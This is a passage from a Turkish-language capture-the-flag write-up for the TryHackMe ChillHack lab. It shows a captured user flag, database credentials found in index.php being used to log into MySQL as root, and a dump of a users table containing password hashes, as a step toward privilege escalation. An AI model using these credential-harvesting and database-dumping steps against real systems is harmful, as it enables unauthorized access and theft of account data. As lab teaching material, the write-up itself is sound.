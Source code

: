 `{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`

Geri yetki yükseltmek ve root bayrağını almak kaldı.

Makinede biraz gezindikten sonra index.php dosyasının içinde bazı işe yarar bilgiler buluyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a8.png?raw=true)

Bu bilgilerle database'e erişmeye çalışalım.



```bash
apaar@ubuntu:/var/www/files$ mysql -u root -p'!@m+her00+@db'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
No entry for terminal type "unknown";
using dumb terminal settings.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)
mysql> use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)
mysql> select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

